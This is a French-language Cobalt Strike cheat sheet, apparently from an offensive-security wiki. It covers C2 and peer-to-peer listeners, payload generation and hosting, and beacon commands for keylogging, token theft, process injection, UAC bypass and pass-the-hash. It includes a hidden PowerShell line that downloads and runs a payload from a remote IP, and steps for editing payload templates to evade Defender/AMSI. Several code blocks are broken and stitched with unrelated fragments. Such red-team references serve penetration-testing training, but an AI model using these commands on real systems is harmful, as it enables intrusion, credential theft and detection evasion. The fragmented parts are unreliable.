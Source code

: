 # Cobalt Strike

### Listeners

### Écouteurs C2

`Cobalt Strike -> Listeners -> Ajouter/Modifier` puis vous pouvez sélectionner où écouter, quel type de beacon utiliser (http, dns, smb...) et plus encore.

### Écouteurs Peer2Peer

Les beacons de ces écouteurs n'ont pas besoin de communiquer directement avec le C2, ils peuvent communiquer avec lui via d'autres beacons.

`Cobalt Strike -> Listeners -> Ajouter/Modifier` puis vous devez sélectionner les beacons TCP ou SMB

* Le **beacon TCP va définir un écouteur sur le port sélectionné**. Pour se connecter à un beacon TCP, utilisez la commande `connect <ip> <port>` depuis un autre beacon
* Le **beacon smb va écouter dans un pipename avec le nom sélectionné**. Pour vous connecter à un beacon SMB, vous devez utiliser la commande `link [target] [pipe]`.

### Générer et héberger des payloads

#### Générer des payloads dans des fichiers

`Attaques -> Packages ->`&#x20;

* **`HTMLApplication`** pour les fichiers HTA
* **`Macro MS Office`** pour un document office avec une macro
* **`Exécutable Windows`** pour un .exe, .dll ou service .exe
* **`Exécutable Windows (S)`** pour un **stageless** .exe, .dll ou service .exe (mieux vaut stageless que staged, moins d'IoC)

#### Générer et héberger des payloads

`Attaques -> Web Drive-by -> Scripted Web Delivery (S)` Cela générera un script/exécutable pour télécharger le beacon de cobalt strike dans des formats tels que: bitsadmin, exe, powershell et python

#### Héberger des payloads

Si vous avez déjà le fichier que vous voulez héberger dans un serveur web, allez simplement à `Attaques -> Web Drive-by -> Host File` et sélectionnez le fichier à héberger et la configuration du serveur web.

### Options de Beacon

<pre class="language-bash"><code class="lang-bash"># Exécuter un binaire .NET local
execute-assembly &#x3C;/path/to/executable.exe>

# Captures d'écran
printscreen    # Prendre une capture d'écran unique via la méthode PrintScr
screenshot     # Prendre une capture d'écran unique
screenwatch    # Prendre des captures d'écran périodiques du bureau
## Aller dans Affichage -> Captures d'écran pour les voir

# keylogger
keylogger [pid] [x86|x64]
## Afficher > Frappes de clavier pour voir les touches pressées

# portscan
portscan [pid] [arch] [cibles] [ports] [arp|icmp|none] [max connections] # Injecter une action de portscan dans un autre processus
portscan [cibles] [ports] [arp|icmp|none] [max connections]

# Powershell
# Importer un module Powershell
powershell-import C:\path\to\PowerView.ps1
powershell &#x3C;just write powershell cmd here>

# Impersonation d'utilisateur
## Génération de jeton avec des informations d'identification
make_token [DOMAIN\user] [password] #Créer un jeton pour se faire passer pour un utilisateur dans le réseau
ls \\computer_name\c$ # Essayer d'utiliser le jeton généré pour accéder à C$ sur un ordinateur
rev2self # Arrêter d'utiliser le jeton généré avec make_token
## L'utilisation de make_token génère l'événement 4624: Une session a été ouverte pour un compte. Cet événement est très courant dans un domaine Windows, mais peut être affiné en filtrant sur le type de connexion. Comme mentionné ci-dessus, il utilise LOGON32_LOGON_NEW_CREDENTIALS qui est de type 9.

# Contournement de l'UAC
elevate svc-exe &#x3C;listener>
elevate uac-token-duplication &#x3C;listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"

## Voler le jeton d'un pid
## Comme make_token mais en volant le jeton d'un processus
steal_token [pid] # Aussi, cela est utile pour les actions réseau, pas pour les actions locales
## À partir de la documentation de l'API, nous savons que ce type de connexion "permet à l'appelant de cloner son jeton actuel". C'est pourquoi la sortie de Beacon dit Impersonated &#x3C;current_username> - il se fait passer pour notre propre jeton cloné.
ls \\computer_name\c$ # Essayer d'utiliser le jeton généré pour accéder à C$ sur un ordinateur
rev2self # Arrêter d'utiliser le jeton volé avec steal_token

## Lancer un processus avec de nouvelles informations d'identification
spawnas [domain\username] [password] [listener] #Faites-le à partir d'un répertoire avec un accès en lecture comme: cd C:\
## Comme make_token, cela générera l'événement Windows 4624: Une session a été ouverte pour un compte, mais avec un type de connexion de 2 (LOGON32_LOGON_INTERACTIVE). Il détaillera l'utilisateur appelant (TargetUserName) et l'utilisateur usurpé (TargetOutboundUserName).

## Injecter dans un processus
inject [pid] [x64|x86] [listener]
## D'un point de vue OpSec: ne pas effectuer d'injection interplateforme à moins que vous n'en ayez vraiment besoin (par exemple, x86 -> x64 ou x64 -> x86).

## Passer le hash
## Cette modification nécessite le patching de la mémoire LSASS, ce qui est une action à haut risque, nécessite des privilèges d'administrateur local et n'est pas viable si Protected Process Light (PPL) est activé.
pth [pid]
```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```
N'oubliez pas de charger le script agressif `dist-pipe\artifact.cna` pour indiquer à Cobalt Strike d'utiliser les ressources du disque que nous voulons et non celles chargées.

### Kit de ressources

Le dossier ResourceKit contient les modèles pour les charges utiles basées sur des scripts de Cobalt Strike, y compris PowerShell, VBA et HTA.

En utilisant [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) avec les modèles, vous pouvez trouver ce que Defender (AMSI dans ce cas) n'aime pas et le modifier :
```
.\ThreatCheck.exe -e AMSI -f .\cobaltstrike\ResourceKit\template.x64.ps1
```
Modifiant les lignes détectées, on peut générer un modèle qui ne sera pas détecté.

N'oubliez pas de charger le script agressif `ResourceKit\resources.cna` pour indiquer à Cobalt Strike d'utiliser les ressources du disque que nous voulons et non celles chargées.
```bash
cd C:\Tools\neo4j\bin
neo4j.bat console
http://localhost:7474/ --> Change password
execute-assembly C:\Tools\SharpHound3\SharpHound3\bin\Debug\SharpHound.exe -c All -d DOMAIN.LOCAL



# Change powershell
C:\Tools\cobaltstrike\ResourceKit
template.x64.ps1
# Change $var_code -> $polop
# $x --> $ar
cobalt strike --> script manager --> Load --> Cargar C:\Tools\cobaltstrike\ResourceKit\resources.cna

#artifact kit
cd  C:\Tools\cobaltstrike\ArtifactKit
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .


```

